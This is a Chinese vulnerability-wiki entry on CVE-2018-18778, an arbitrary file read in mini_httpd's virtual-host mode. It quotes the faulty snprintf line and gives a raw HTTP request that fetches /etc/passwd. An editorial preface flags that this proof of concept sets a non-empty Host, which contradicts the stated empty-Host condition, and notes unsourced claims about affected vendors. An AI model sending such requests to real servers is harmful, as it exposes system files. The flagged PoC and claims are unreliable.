

# （CVE-2018-18778）Mini\_httpd 任意文件读取漏洞

<!-- vulwiki-editorial:start -->
## 校订与适用边界

- 适用前提：启用虚拟主机模式，空Host形成绝对路径，文件受服务进程权限限制
- 证据范围：snprintf根因和空Host条件明确，但唯一PoC恰好写了非空Host，与利用前提正面矛盾。

### 尚未解决的证据缺口

以下限制仍适用于后文历史材料；相关版本、结果或修复结论不能据此视为已验证：

- PoC Host:www.0-sec.org不是空值，不能演示所述空Host漏洞
- 影响版本章节为空，无修复/源码版本
- 广泛设备厂商列表不证明具体产品受影响，性能90%无来源
- 图片路径重复尾巴，结果未视检

本页为文本校订，未执行代码、PoC 或目标请求；原图仅保留引用，未据此确认复现成功。
<!-- vulwiki-editorial:end -->

## 技术正文与历史材料

一、漏洞简介
------------

Mini\_httpd是一个微型的Http服务器，在占用系统资源较小的情况下可以保持一定程度的性能（约为Apache的90%），因此广泛被各类IOT（路由器，交换器，摄像头等）作为嵌入式服务器。而包括华为，zyxel，海康威视，树莓派等在内的厂商的旗下设备都曾采用Mini\_httpd组件。

在mini\_httpd开启虚拟主机模式的情况下，用户请求`http://HOST/FILE`将会访问到当前目录下的`HOST/FILE`文件。

    (void) snprintf( vfile, sizeof(vfile), "%s/%s", req_hostname, f );

见上述代码，分析如下：

-   当HOST=`example.com`、FILE=`index.html`的时候，上述语句结果为`example.com/index.html`，文件正常读取。
-   当HOST为空、FILE=`etc/passwd`的时候，上述语句结果为`/etc/passwd`。

后者被作为绝对路径，于是读取到了`/etc/passwd`，造成任意文件读取漏洞。

二、漏洞影响
------------

三、复现过程
------------

发送请求是将Host置空，PATH的值是文件绝对路径：

    GET /etc/passwd HTTP/1.1
    Host: www.0-sec.org
    Accept-Encoding: gzip, deflate
    Accept: */*
    Accept-Language: en
    User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
    Connection: close

成功读取文件：

Mini_httpd任意文件读取漏洞/media/rId24.png)

参考链接
--------

> https://vulhub.org/\#/environments/mini\_httpd/CVE-2018-18778/
